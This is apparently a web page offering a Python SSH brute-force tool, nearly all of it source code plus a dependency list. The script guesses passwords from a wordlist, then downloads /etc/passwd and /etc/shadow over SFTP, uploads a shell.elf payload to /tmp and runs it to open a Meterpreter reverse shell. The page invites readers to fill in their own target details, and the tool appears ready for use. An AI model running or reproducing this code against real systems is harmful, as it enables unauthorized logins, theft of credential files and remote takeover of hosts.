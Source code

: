 ```yaml
---
layout: attack
title: SSHBruteForcer
---
```

<img height="120" align="left" src="/images/ssh-bruteforcer.png">
Tiny and simple SSH brute force tool written in Python3 that can return a meterpreter reverse shell. Edit the source code below for your hostname, username, password, and MSF reverse shell details. There is also functionality to automatically download `/etc/passwd` and `/etc/shadow` from the host. This as you might have already figured out is only working if the host has enough access.

```python
#!/usr/bin/python3

print("""\                                                                                                                        
   _____  _____  _    _   ____                _          ______                          
  / ____|/ ____|| |  | | |  _ \              | |        |  ____|                          
 | (___ | (___  | |__| | | |_) | _ __  _   _ | |_  ___  | |__  ___   _ __  ___  ___  _ __ 
  \___ \ \___ \ |  __  | |  _ < | '__|| | | || __|/ _ \ |  __|/ _ \ | '__|/ __|/ _ \| '__|
  ____) |____) || |  | | | |_) || |   | |_| || |_|  __/ | |  | (_) || |  | (__|  __/| |   
 |_____/|_____/ |_|  |_| |____/ |_|    \__,_| \__|\___| |_|   \___/ |_|   \___|\___||_|   
                                                                                          
""")

from pwn import *
import paramiko
import os
import time


host = "192.168.0.1"
username = "RandomDude"
port_int = 22
attempts = 0
sshClient = paramiko.SSHClient()
client = paramiko.SSHClient()

with open("wordlist.txt", "r") as password_list:
  for password in password_list:
    password = password.strip("\n")
    try:
     print("[{}] Attempting Password: {}".format(attempts, password, port_int))
     response = ssh(host=host, user=username, password=password, port=port_int, timeout=1)
     if response.connected():
       print("[>] You Cracked It!: {}".format(password))
       sleep(2)
       print("***SENDING METERPRETER SHELL BACK***")
       response.close()
       break
    except paramiko.ssh_exception.AuthenticationException:
     print("[X] Nope, That's Not It")
    attempts += 1

try:
   client = paramiko.SSHClient()
   client.load_system_host_keys()
   client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
   client.connect(hostname=host, port=port_int, username=username, password=password)
   
   sftp = client.open_sftp()
   
   # Download   
   filepath = "/etc/passwd"
   localpath = "/home/user/passwd.txt"
   sftp.get(filepath,localpath)
   
   filepath = "/etc/shadow"
   localpath = "/home/user/shadow.txt"
   sftp.get(filepath,localpath)

   # Upload
   filepath = "/tmp/shell.elf"
   localpath = "shell.elf"
   sftp.put(localpath,filepath)

   sftp.close()

   while True:
    try:  
       stdin, stdout, stderr = client.exec_command('chmod +x /tmp/shell.elf && cd /tmp && ./shell.elf')
       print(stdout.read().decode())
       break
    except KeyboardInterupt:
        print("Exited On User Command")
   client.close()
except Exception as err:
   print(str(err))

```

*Cough* now time for the ugly part of this script: the dependencies. Add these to `requirements.txt` or poetry. Newer versions of the dependencies should work but I haven't tested them:

```
paramiko==2.7.2
pwncat==0.4.3
pwntools==4.6.0
```

